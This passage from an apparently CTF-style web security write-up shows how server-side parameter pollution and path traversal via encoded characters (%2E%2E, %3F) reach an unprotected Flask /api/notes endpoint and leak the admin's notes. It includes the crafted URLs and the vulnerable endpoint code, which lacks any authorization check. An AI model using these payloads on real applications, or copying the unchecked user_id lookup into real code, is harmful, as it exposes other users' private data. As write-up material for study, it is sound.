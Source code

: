 Knowing this, we can inject new parameter to the backend.

- Nginx: `/note/06300bb3-f70b-49b1-9f6e-085cada03b9b%3Fpolluted=pouetpouet/show`
- Frontend: `/note/06300bb3-f70b-49b1-9f6e-085cada03b9b%3Fpolluted=pouetpouet/show` 
- Backend: `/api/notes/public/06300bb3-f70b-49b1-9f6e-085cada03b9b?polluted=pouetpouet`

Here we injected parameter `?polluted=pouetpouet` to the backend API.

### Server side path traversal using HTTP normalization

We cannot inject `../` to directly do a path traversal in the backend API.

However, for exemple the URL `http://192.168.220.132:5002/note/%2E%2E/show` create the following behaviour :

- Nginx: `/note/%2E%2E/show`               
- Frontend: `/note/../show`
- Backend: `/api/notes/`

Usually a URL ending in `/` is considered as incorrect by Flask, but the application uses the following code to indicate that `/api/foo` and `/api/foo/` are equivalent.

```python
app.url_map.strict_slashes = False
```

So in this case we are able to arbitrarily reach the endpoint `/api/notes/` in the backend.

If we look at the code source of the endpoint we discover the following content : 

```python
# Backend
@app.route('/api/notes', methods=['GET'])
def get_notes():
    user_id = request.args.get('user_id')
    notes = Note.query.filter_by(user_id=user_id).all()
    if notes:
        notes_data = [{'id': note.id, 'title': note.title, 'content': note.content, 'public': note.public} for note in notes]
        return jsonify(notes_data), 200
    else:
        return jsonify({'message': 'No notes found!'}), 404
```

It takes a parameter "user_id" and return the notes of the user. Interesting, isn't it?

### Leak admin note

We can mix SSPP & SSPT to request the endpoint to get the notes of any user. We have to use the path traversal to reach `/api/notes/` and use the parameter pollution to insert `?user_id=1` to leak the password of the admin.

- Nginx: `/note/..%3Fuser_id%3D1/show`               
- Frontend: `/note/..%3Fuser_id=1/show`
- Backend: `/api/notes/?user_id=1`
